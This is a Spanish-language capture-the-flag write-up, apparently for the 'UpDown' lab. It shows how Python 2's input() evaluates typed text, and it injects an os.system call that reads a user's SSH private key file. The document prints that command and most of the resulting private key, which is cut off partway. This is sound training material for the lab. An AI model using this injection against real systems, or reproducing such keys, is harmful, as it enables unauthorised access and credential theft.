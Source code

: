 #### Contexto

Hay **dos métodos comunes** para recibir **entradas** en Python 2.x:

1. Uso de la función *input()*: esta función toma el valor y el tipo de la entrada que ingresa tal como está sin modificar ningún tipo.
2. Uso de la función *raw_input():* esta función convierte explícitamente la entrada que proporciona en un *string*.

En nuestro caso, como en el script anterior se está empleando *input()*, la vulnerabilidad radica en que podemos proporcionar el **nombre de una función** como valor de entrada.

En *Python 3*, la función *raw_input()* se borró y su funcionalidad se transfirió a una nueva función integrada conocida como *input()*. Todo esto está explicado con más detenimiento en este [enlace](https://www.geeksforgeeks.org/vulnerability-input-function-python-2-x/).

#### Explotación

La **función** que introduciremos como entrada será la siguiente:

```python
__import__('os').system('cat /home/developer/.ssh/id_rsa')
```

Importamos la librería ***os*** y ejecutamos un comando a nivel de sistema que nos volcará la **clave privada** del usuario *developer*:

```python
www-data@updown:/tmp$ /home/developer/dev/siteisup 
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('cat /home/developer/.ssh/id_rsa')
-----BEGIN OPENSSH PRIVATE KEY-----
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
```